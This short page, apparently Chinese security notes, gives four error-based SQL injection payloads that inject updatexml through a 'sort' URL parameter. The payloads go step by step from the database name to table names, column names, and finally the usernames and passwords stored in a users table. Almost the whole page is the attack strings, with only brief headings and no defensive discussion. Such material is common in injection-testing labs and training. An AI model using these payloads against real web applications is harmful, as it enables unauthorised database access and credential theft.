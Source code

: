 

## 获取数据库名



```sql
/?sort=1 and updatexml(1,concat('~',database()),0)
```



## 获取表名



```sql
/?sort=1 and updatexml(1,concat('~',(select group_concat(table_name)from information_schema.tables where table_schema=database())),0)
```



## 获取列名



```sql
/?sort=1 and updatexml(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_name='users')),0)
```



## 获取用户名与密码



```sql
/?sort=1 and updatexml(1,concat('~',(select group_concat('|',username,':',password,'|') from users )),0)
```

